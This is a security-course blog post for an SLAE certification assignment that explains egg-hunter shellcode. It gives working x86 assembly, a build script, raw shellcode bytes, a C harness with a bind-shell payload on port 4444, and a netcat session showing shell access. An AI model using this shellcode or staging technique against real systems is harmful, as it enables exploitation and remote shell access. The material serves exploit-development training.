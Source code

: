 ```yaml
---
layout: post
title:  "Slae32 Assignment #3"
date:   2017-12-08 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #3

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Study about the Egg Hunter shellcode
* Create a working demo of the Egghunter
* Should be configurable for different payloads

## Resources

* http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

## Egg Hunters theory

For this assignment it's required to study the egg hunting tecniques, and come up with a fully working implementation.

Usually when a BOF happens, there isn't a lot of space available for the payload, what happens in most of cases is that a small portion of shellcode is put on the stack and directly accessible and 
another part instead is put somewhere else, and have much more space available. The egg hunting tecnique consists in a two staged payload, the first, smaller, searches for a particular pattern in memory, with which the second larger part is identified and executed. As from the paper mentioned earlier the pattern is usually 4 bytes long, and repeated twice, so that the egg-hunter won't transfer execution to its own code.

## Implementation

The shellcode used is the one for shell bind, the only change is that it will be prefixed with a short premises of 8 bytes that will be the pattern searched by the egg hunter.
Here follows the egg-hunter code:

```
; Filename: EggHunter.nasm
; Author:  SLAE-935
;
; Purpose: execute through egg-hunter routine the shellcode of ShellBindTcp

global _start			

section .text

_start:
    ; EDX = ptr address to be validated against access call and later egg
    xor edx, edx

next_page:
    ; Page alignment branch, if a EFAULT is returned from system call all the addresses
    ; in the current page are to be considered invalid, so the page is incremented,
    ; This operation is equivalent to adding 0x1000 to the value in edx
    or dx, 0xfff

next_address:

    ; access(const char *pathname, int mode)
    ; EAX = 33 = system call nbr
    ; EBX = ptr to address to be validated (egg being searched)
    ; ECX = 0 (not used in call)
    ; EDX = current ptr to in page address to be validated (not used in call)

    inc edx ; increments of 1 byte

    ; EBX = ptr to next 8 bytes (this way it allows to examine 8 bytes in a row)
    lea ebx, [edx+0x4]

    xor eax, eax ; initialize eax
    mov al, 33 ; to system call value
    int 0x80
    ; EAX = access return value (0 success, -1 error -> EFAULT)
 
    cmp al, 0xf2 ; check for EFAULT
    je next_page ; if yes, keep searching in next page
                 ; if not search egg in current memory space
    
    ; scasd
    ; EAX = DWORD first comparison operand = ABCD
    ; EDI = DWORD second operand
    mov eax, 0x41424344 ; egg tag ABCD
    mov edi, edx ; ptr to first 4 bytes
    scasd
    ; ret = set status flag, moves edi + 4 bytes

    jne next_address ; if not equal check current address + 1
                     ; if equal we check for second part of the tag

    ; scasd
    ; EAX = DWORD first comparison operand = ABCD
    ; EDI = DWORD second operand
    scasd
    ; ret = set status flag, moves edi + 4 bytes

    jne next_address ; if not equal check current address + 1
                     ; if equal we have found the egg, and jump to edi which now points
                     ; at the beginning of 2nd stage shellcode

    jmp edi ; actually edi points to the beginning of shellcode
```

Compiling the assembler code to shellcode with the following script:

```
echo '[+] Assembling with Nasm ... ' # Nasm shell source: file.nasm
nasm -f elf32 -o $1.o $1.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o
echo '[+] Done!'

# Remove object file
rm -rf $1.o

echo '[+] Dumping Shellcode ...'
objdump -d ./$1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'
echo '[+] Done!'

# Remove executable
rm -rf $1
```

which generates the following output (shellcode asm):

```
$ ./compile-nasm.sh egg-hunter      
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Dumping Shellcode ...
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\xb8\x44\x43\x42\x41\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\xff\xe7"
[+] Done!
```

We are using the same shellcode of the previous assignment (shell bind). The following script allows easily customization of the egg payload and of the shellcode itself:

```
# Ex: ./compile.sh ABCD "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

echo '######### NASM #########'
echo '[+] Customizing Tag: '$1 # $1 Tag like: ABCD
tag=`echo -n $1 | xxd -ps | sed 's/[[:xdigit:]]\{2\}/\\\x&/g'`
echo '[+] Done!'

echo '[+] Customizing Shellcode: '$2 # $2 Shellcode: \x00\x01..
shellcode=$2
echo '[+] Done!'

echo '[+] Assemble shellcode C ...'

echo "#include<stdio.h>" >shellcode.c
echo "#include<string.h>" >>shellcode.c
echo "#define EGG \"$tag\"" >>shellcode.c
echo "unsigned char shellcode[] = EGG" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"$shellcode\";" >>shellcode.c
echo "unsigned char egghunter[] = \"\x31\xd2\x66\x81\xca\xff\x0f\x42\"" >>shellcode.c
echo "                            \"\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80\"" >>shellcode.c
echo "                            \"\x3c\xf2\x74\xed\xb8\"" >>shellcode.c
echo "                            EGG" >>shellcode.c
echo "                            \"\x89\xd7\xaf\x75\xe8\xaf\x75\xe5\"" >>shellcode.c
echo "                            \"\xff\xe7\";" >>shellcode.c
echo "void" >>shellcode.c
echo "main() {" >>shellcode.c
echo "    printf(\"Shellcode Length: %d\\n\", strlen(egghunter));" >>shellcode.c
echo "    int (*ret)() = (int(*)())egghunter;" >>shellcode.c
echo "    ret();" >>shellcode.c
echo "}" >>shellcode.c

echo '[+] Done!'

echo '[+] Assemble shellcode.c ...'
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

The script is executed as follows:

```
$ ./compile.sh ABCD "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90"
######### NASM #########
[+] Customizing Tag: ABCD
[+] Done!
[+] Customizing Shellcode: \x31\xc0\xb0\x66\x31\xdb\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04\x6a\x05\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51\x51\x57\x89\xe1\xcd\x80\x89\xc6\x31\xc0\xb0\x02\xcd\x80\x09\xc0\x75\x49\x31\xc0\xb0\x06\x89\xfb\xcd\x80\x31\xc0\xb0\x3f\x89\xf3\x31\xc9\xb1\x01\xfe\xc9\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x31\xc9\xb1\x02\xcd\x80\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb1\x01\xfe\xc9\x31\xc9\x88\xca\xcd\x80\x31\xc0\xb0\x06\x89\xf3\xcd\x80\xeb\x90
[+] Done!
[+] Assemble shellcode C ...
[+] Done!
[+] Assemble shellcode.c ...
```

## Proof of execution

The executed shellcode leads to the following output that confirms it's correctness:
```
$ ./shellcode 
Shellcode Length: 36

```

and successful connection with execution of a system command into the bind shell:

```
$ nc -vv localhost 4444
Connection to localhost 4444 port [tcp/*] succeeded!
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),110(sambashare),999(admin)
```